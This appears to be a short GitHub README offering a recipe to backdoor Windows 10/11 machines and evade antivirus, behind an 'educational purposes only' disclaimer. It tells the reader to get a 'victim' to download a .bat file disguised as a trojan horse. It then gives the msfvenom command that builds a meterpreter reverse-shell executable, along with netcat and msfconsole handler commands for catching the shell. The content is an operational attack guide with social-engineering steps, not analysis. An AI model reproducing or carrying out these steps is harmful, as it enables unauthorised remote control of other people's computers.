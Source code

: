 # Windows 11/10 Bypass AV & Backdoor
##### For educational purposes only!
##### Social Engineering required!
## Steps:

1. Get victim to download .bat file to their machine, i.e through ngrok server, google drive, discord, or other means.
 - Make it convincing by turning it into a trojan horse.
3. Generate the payload: <br>
Using meterpreter here, but feel free to play around with it. <br>
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR_IP] LPORT=4444 -a x86 -f exe -o [FILE_NAME.exe]

3. Setup your listener with nc or msfconsole. <br>
nc -lvnp 9001 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 4444) <br>
msf exploit(handler) > exploit <br>
